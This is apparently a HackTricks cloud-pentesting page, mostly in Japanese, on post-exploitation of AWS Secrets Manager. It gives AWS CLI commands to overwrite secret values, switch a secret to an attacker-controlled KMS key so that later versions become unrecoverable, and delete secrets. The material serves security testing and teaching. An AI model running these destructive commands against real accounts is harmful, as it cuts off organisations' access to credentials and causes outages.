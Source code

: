 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### シークレットの読み取り

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS: シークレット値の変更

シークレットの値を変更すると、その値に依存するすべてのシステムを**DoS**する可能性があります。

> [!WARNING]
> 以前の値も保存されるため、以前の値に戻すのは簡単です。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

攻撃者が secretsmanager:UpdateSecret 権限を持っている場合、攻撃者が所有する KMS key を使用するよう secret を設定できます。そのキーは最初は誰でもアクセス・使用できるように設定されているため、secret を新しいキーで更新することが可能です。もしキーにアクセスできなければ、secret の更新はできません。

secret のキーを変更した後、攻撃者は自分のキーの設定を変更して自分だけがアクセスできるようにします。こうすると、以降のバージョンの secret は新しいキーで暗号化され、他者がアクセスできないため、secret を取得する手段が失われます。

なお、このアクセス不能は secret の内容が変更された後の以降のバージョンでのみ発生する点に注意してください。現行バージョンは元の KMS key で暗号化されたままだからです。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS シークレットの削除

シークレットを削除する最小日数は7日です
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}
